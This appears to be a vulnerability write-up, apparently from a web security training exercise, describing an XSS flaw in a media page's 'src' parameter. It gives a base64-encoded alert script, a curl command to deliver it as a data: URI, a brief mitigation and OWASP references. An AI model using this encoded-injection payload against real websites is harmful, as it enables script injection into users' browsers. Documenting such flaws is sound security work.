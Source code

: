 **Vulnerability: Client-side Resource Manipulation with Encoded Injection**

**Description:**
The media page contains unprotected endpoint that accepts arbitrary parameters that can result in injection of malicious strings, e.g. client-side code (JavaScript) that could lead to XSS vulnerabilities.

**Steps to Reproduce:**
```
http://<YOUR_IP_ADDRESS>/?page=media&src=
```
Encode malisious script 
```
<script>
  alert(‘XSS’);
</script>
```
to `base64` (tool: https://www.base64encode.net/) and pass it as `src` param:
```
curl -s -G 'http://localhost:8080/' \
  --data-urlencode 'page=media' \
  --data-urlencode 'src=data:text/html;base64,PHNjcmlwdD4NCiAgICBhbGVydCjigJhYU1PigJkpOw0KPC9zY3JpcHQ+'
```
This will trigger responses from the web browser that manifests the vulnerability. 

**Impact:**
1. Unprotected data entrypoint potentially resulting in an XSS attack.
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

**Mitigation:**
1. Sanitize inputs.

**References:**
https://github.com/OWASP/wstg/blob/63fbe5bfb3b93ba4f3edfb0bd02e75429a3be5ce/document/4-Web_Application_Security_Testing/11-Client-side_Testing/06-Testing_for_Client-side_Resource_Manipulation.md
https://github.com/OWASP/wstg/blob/63fbe5bfb3b93ba4f3edfb0bd02e75429a3be5ce/document/6-Appendix/D-Encoded_Injection.md#hex-encoding
https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting.md 